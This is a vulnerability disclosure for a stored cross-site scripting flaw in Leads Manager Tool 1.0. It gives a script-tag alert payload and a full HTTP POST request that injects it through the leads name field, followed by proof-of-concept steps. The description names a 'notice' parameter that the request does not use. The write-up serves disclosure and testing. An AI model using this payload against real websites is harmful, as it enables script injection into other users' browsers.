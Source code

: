 # Leads Manager Tool - Stored Cross-Site Scripting(XSS)

#### Exploit Title: Leads Manager Tool - Stored Cross-Site Scripting

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/17510/leads-manager-tool-using-php-and-mysql-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=17510&title=Leads+Manager+Tool+Using+PHP+and+MySQL+with+Source+Code

#### Version: Leads Manager Tool 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Online Leads Manager Tool does not filter the content correctly at the "notice" parameter, resulting in the generation of stored XSS.

#### Payload used:

`<script>alert("a")</script>`

```
POST /endpoint/add-leads.php HTTP/1.1
Host: 192.168.67.35:8093
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

leads_name=%3Cscript%3Ealert%28%27a%27%29%3C%2Fscript%3E&email_add=111%40qq.com&phone_number=1232131
```

#### Proof of Concept

1、Visit the website, click on "add leads", and fill in the xss payload in the "Leads Name" field

![image](https://github.com/joinia/webray.com.cn/blob/main/Leads-Manager-Tool/images/xss.png)

2、After successfully adding, re visiting the page will trigger an XSS pop-up window

![image](https://github.com/joinia/webray.com.cn/blob/main/Leads-Manager-Tool/images/xss2.png)

3、The captured post packet is as follows：

![image](https://github.com/joinia/webray.com.cn/blob/main/Leads-Manager-Tool/images/xss1.png)
